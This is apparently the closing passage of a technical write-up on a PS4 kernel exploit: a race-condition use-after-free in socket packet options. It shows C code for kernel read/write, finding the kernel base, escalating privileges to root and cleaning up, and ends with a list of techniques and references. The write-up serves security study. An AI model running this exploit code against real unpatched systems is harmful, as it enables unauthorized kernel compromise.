 We can just set the crucial pointers of the exploited `sock`'s to 0 so that the kernel does not by mistake use some wrong value and crash. For the other sock's that we sprayed, we can just `free()` them.
```c
static void cleanup(void) {
  uint64_t master_pktopts, overlap_pktopts, victim_pktopts;
  master_pktopts  = find_socket_pktopts(master_sock);
  overlap_pktopts = find_socket_pktopts(overlap_sock);
  victim_pktopts  = find_socket_pktopts(victim_sock);
  kwrite64(master_pktopts  + PKTOPTS_PKTINFO_OFFSET, 0);
  kwrite64(overlap_pktopts + PKTOPTS_RTHDR_OFFSET, 0);
  kwrite64(victim_pktopts  + PKTOPTS_PKTINFO_OFFSET, 0);
}
```

### Aand..... root!

And thats it! We can now gain r00t access in a PS4 system (well, an _unpatched_ PS4 system):
```c
victim_sock = spray_sock[idx];
  printf("[+] Victim socket: %x (%x)\n", victim_sock, idx);
  printf("[+] Arbitrary R/W achieved.\n");
  knote    = kread64(kevent_addr + kevent_sock * sizeof(uintptr_t));
  kn_fop   = kread64(knote + KNOTE_FOP_OFFSET);
  f_detach = kread64(kn_fop + FILTEROPS_DETACH_OFFSET);
  printf("[+] knote: 0x%lx\n", knote);
  printf("[+] kn_fop: 0x%lx\n", kn_fop);
  printf("[+] f_detach: 0x%lx\n", f_detach);
  printf("[+] Finding kernel base...\n");
  kernel_base = find_kernel_base(f_detach);
  printf("[+] Kernel base: 0x%lx\n", kernel_base);
  printf("[+] Finding process cred and fd...\n");
  find_proc_cred_and_fd(getpid());
  printf("[*] Escalating privileges...\n");
  escalate_privileges();
  printf("[*] Cleaning up...\n");
  cleanup();
  printf("[+] Done.\n");
  return 0;
```
# Interesting Techniques used
- A race condition in the kernel leading to a Use-After-Free bug.
- Building stronger primitives out of weaker ones.
- Spraying the heap with victim objects to speed up hitting the race condition.

# References
- [https://www.exploit-db.com/exploits/48644](https://www.exploit-db.com/exploits/48644)
- [https://hackerone.com/reports/826026](https://hackerone.com/reports/826026)
 ProTip! Use n and p to navigate betw
